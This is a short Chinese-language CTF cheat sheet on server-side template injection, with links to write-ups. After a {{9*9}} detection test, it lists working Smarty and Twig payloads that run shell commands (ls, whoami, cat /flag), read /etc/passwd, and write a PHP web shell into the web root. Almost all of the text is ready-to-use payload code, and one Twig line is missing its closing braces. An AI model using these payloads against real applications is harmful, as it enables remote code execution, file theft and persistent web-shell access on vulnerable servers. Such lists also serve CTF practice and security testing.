 CTF题解：
<https://www.cnblogs.com/bmjoker/p/13508538.html>

CTF题SSTI:
```
一个网页可以参数传参回显，XFF的IP回显，UA回显，日志回显等。
通过回显的注入点注入验证：
{{9*9}}
回显81，则存在模板注入

解题：
大多数题目的flag均藏在系统中的某个文件内
通过模板注入解析读取文件。

```


## **smarty常用注入**
```

php:
查看配置
{config}
{$smarty.version}

{system("cat ../../../../../../flag")}
{system("ls")}


{if readfile('/flag')}{/if}
{if phpinfo()}{/if}
{if system('ls')}{/if}
{if system('cat /flag')}{/if}


{self::getStreamVariable(“file:///etc/passwd”)}

string:{$smarty.template->smarty->_getSmartyObj()->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->_getSmartyObj()->display('string:{system(whoami)}')}
```
<https://xz.aliyun.com/t/11108?time__1311=Cq0x2DgD0Q3xlEzIx7KD%3Dqi%3DDOU8QUfox#toc-6>



## **twig常用的注入payload**
php7.3
```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}

{{'/etc/passwd'|file_excerpt(1,30)}}
{{app.request.files.get(1).__construct('/etc/passwd','')}}
{{app.request.files.get(1).openFile.fread(99)}}
{{_self.env.registerUndefinedFilterCallback("exec")}}
{{_self.env.getFilter("whoami")}}
{{_self.env.enableDebug()}}{{_self.env.isDebug()}}
{{["id"]|map("system")|join(",")
{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}
{{["id",0]|sort("system")|join(",")}}
{{["id"]|filter("system")|join(",")}}
{{[0,0]|reduce("system","id")|join(",")}}
{{['cat /etc/passwd']|filter('system')}}
```

